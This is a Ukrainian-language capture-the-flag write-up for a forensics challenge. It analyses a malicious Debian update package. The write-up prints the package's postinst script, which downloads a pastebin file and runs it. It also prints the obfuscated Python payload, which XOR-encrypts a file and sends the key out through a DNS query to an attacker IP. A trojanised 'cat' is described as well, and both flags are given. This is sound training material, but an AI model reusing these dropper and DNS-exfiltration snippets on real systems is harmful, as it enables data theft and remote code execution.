






<p align="center">
  
</p>

# 🧩 Кіт у мішку (Cat in the Bag)
## **Категорія:** DFIR  
## **Складність:** Hard

---

### **Опис завдання:**  
Одного ранку всі комп’ютери університету одночасно отримали пакет із “терміновим оновленням системи”.  
Декілька користувачів встановили його, але на перший погляд нічого критичного не сталося – за винятком того, що один файл виявився зашифрованим. Вам вдалося отримати дамп диску та мережевої активності з однієї з заражених машин.  
З’ясуйте, що саме приховує це оновлення – і спробуйте відновити доступ до зашифрованих даних.  

Q1: Проаналізуйте надані дампи та розшифруйте **flag.enc**. Відповідь подайте у форматі actf{flag}.  

Q2: З’ясуйте, які саме зміни були внесені в систему після встановлення оновлення – і що саме вони реалізують. Відповідь подайте у форматі actf{flag}.  

---
### **Файли**
```dump.zip```  

```net_dump.pcapng```

### **Розв'язання:**  
1. На першому кроці **дамп трафіку нам нічого не дасть**, подивимось, що є на диску.

  ```
  dump
  ├── flag.enc
  ├── opt
  │   └── real_cat
  ├── root
  │   ├── control
  │   ├── opt
  │   │   └── real_cat
  │   ├── postinst
  │   ├── update.deb
  │   └── usr
  │       └── bin
  │           └── cat
  └── usr
      └── bin
          ├── [
          ├── aa-enabled
          ├── aa-exec
          ├── aa-features-abi
          ├── aconnect
          ...
  ```

2. Розпакуємо та подивимось на пакет оновлення **update.deb**.  
  `dpkg-deb -e update.deb update/`  
  `dpkg-deb -x update.deb update/`  
  ```
  update
  ├── control
  ├── opt
  │   └── real_cat
  ├── postinst
  └── usr
      └── bin
          └── cat
  ```

3. Після перегляду структури оновлення, можемо побачити такі виконувані файли:
  
  - **cat**  
  - **real_cat**  
  - **postinst** (bash-скрипт)
  
  Переглянемо, які дії виконує скрипт **postinst**.
  
  ```bash
  #!/bin/bash

  if command -v python3 >/dev/null 2>&1; then

    TMPFILE="/tmp/update.py"
    URL="https://pastebin.com/raw/f7YTAcY7"

    if command -v wget >/dev/null 2>&1; then
        wget -q -O "$TMPFILE" "$URL"
    elif command -v curl >/dev/null 2>&1; then
        curl -s -o "$TMPFILE" "$URL"
    else
        exit 0
    fi

    chmod +x "$TMPFILE"
    python3 "$TMPFILE"
    sleep 2
    rm -f "$TMPFILE"
  fi
  
  exit 0
  ```
  
4. Аналіз скрипта:

  - Перевіряє, чи встановлено `python3`
  - Якщо немає - закінчує своє виконання  
  - Завантажує шкідливий код та виконує його

  Переходимо за [посиланням](https://pastebin.com/raw/f7YTAcY7) і дивимось на код.
  ```python
  lllllllllllllll, llllllllllllllI, lllllllllllllIl, lllllllllllllII, llllllllllllIll = bytes, len, zip, open, exit

  from os.path import isfile as llIIlIIlIlIIll
  from os import urandom as IIlIllllIIIlll, system as lllIIlllIIIllI
  from base64 import urlsafe_b64encode as IllIlIlIlllIIl
  IllIllIIIIlIIIIlll = '/flag.txt'
  if not llIIlIIlIlIIll(IllIllIIIIlIIIIlll):
      llllllllllllIll(1)
  with lllllllllllllII(IllIllIIIIlIIIIlll, 'rb') as lIllIllIIIIllIlIlI:
      IIllIlIIlIIIIIIIII = lIllIllIIIIllIlIlI.read()
  lIIIllIIIlIIlllIlI = IIlIllllIIIlll(llllllllllllllI(IIllIlIIlIIIIIIIII))
  IllIIlIIIIlllIIIlI = lllllllllllllll([b ^ k for (b, k) in lllllllllllllIl(IIllIlIIlIIIIIIIII, lIIIllIIIlIIlllIlI)])
  lIIIlIlIlIllIIlIll = '/flag.enc'
  with lllllllllllllII(lIIIlIlIlIllIIlIll, 'wb') as lIllIllIIIIllIlIlI:
      lIllIllIIIIllIlIlI.write(IllIIlIIIIlllIIIlI)
  lIIIIIlIIlIIlIIlII = IllIlIlIlllIIl(lIIIllIIIlIIlllIlI).decode().rstrip('=')
  IIIlIllIllIIIIllll = f'{lIIIIIlIIlIIlIIlII}.ubuntu.update'
  IllIIlIIIllIllIIIl = f'dig @192.168.1.181 {IIIlIllIllIIIIllll} > /dev/null 2>&1'
  lllIIlllIIIllI(IllIIlIIIllIllIIIl)
  lllIIlllIIIllI('rm -rf /flag.txt')
  ```
  
Після деобфускації код виглядає так:

  ```python
  bytes, len, zip, open, exit = bytes, len, zip, open, exit
  
  from os.path import isfile as isfile
  from os import urandom as urandom, system as system
  from base64 import urlsafe_b64encode as urlsafe_b64encode
  flag_path = '/flag.txt'
  if not isfile(flag_path):
      exit(1)
  with open(flag_path, 'rb') as file:
      data = file.read()
  xor_key = urandom(len(data))
  enc_flag = bytes([b ^ k for (b, k) in zip(data, xor_key)])
  enc_path = '/flag.enc'
  with open(enc_path, 'wb') as file:
      file.write(enc_flag)
  xor_key_b64 = urlsafe_b64encode(xor_key).decode().rstrip('=')
  dns_req = f'{xor_key_b64}.ubuntu.update'
  cmd = f'dig @192.168.1.181 {dns_req} > /dev/null 2>&1'
  system(cmd)
  system('rm -rf /flag.txt')
  ```
  Скрипт шифрує вміст файлу `/flag.txt` випадковим XOR-ключем та зберігає зашифрований результат у `/flag.enc`. XOR-ключ кодується в Base64 та передається атакувальнику через DNS-запит на сервер `192.168.1.181`, де ключ вставляється у вигляді піддомену. Після цього оригінальний файл з флагом видаляється.  
  
6. Знаходимо **DNS-запит у трафіку**, в якому передається ключ XOR.

<p align="center">
  
</p>
  
7. Дешифруємо файл (за допомогою, наприклад, [Cyberchef](https://gchq.github.io/CyberChef/)):

  <p align="center">
    
  </p>
  
---
#### **Flag:** ```actf{swap_flag_R8#d}```
---
8. Пакет оновлення перезаписує утиліту **cat**, дослідимо цей пакет в **IDA Pro**.

  <p align="center">
    
  </p>

9. Проаналізувавши код, розуміємо – перезаписаний **cat** викликає оригінальний **cat** (`/opt/real_cat`) з іншої директорії, після чого записує вивід у `/usr/bin/logs`. Переглянемо цей файл.

  <p align="center">
    
  </p>

10. Маємо рядок у **hex-форматі**, перетворимо його у текст.

  <p align="center">
    
  </p>

11. Додаємо **from base64**, декодуємо.

  <p align="center">
    
  </p>
  
---
#### **Flag:** ```actf{cat_flag_m72V!}```
---
